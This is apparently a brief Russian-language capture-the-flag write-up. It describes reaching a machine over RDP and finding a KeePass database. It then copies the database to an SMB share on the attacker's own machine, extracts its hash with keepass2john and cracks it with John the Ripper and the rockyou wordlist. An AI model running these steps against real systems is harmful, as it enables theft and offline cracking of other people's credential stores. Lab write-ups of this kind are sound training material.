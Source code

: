 
Подключается к машине через xfreerdp
Находим файл Secret.kdb
Поднимаем на локальной машине smb server и с помощью команды``` copy \\ip\share\file-name``` передаем файл на свою машину

Получаем хеш пароля от базы```keepass2john secret.kdb > hash.txt```


расшифруем хеш
```
 john --format=keepass --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Устанавливаем keepassxc, запускаем и импортируем keepass 1 database указав найденный пароль и файл базы => получаем флаг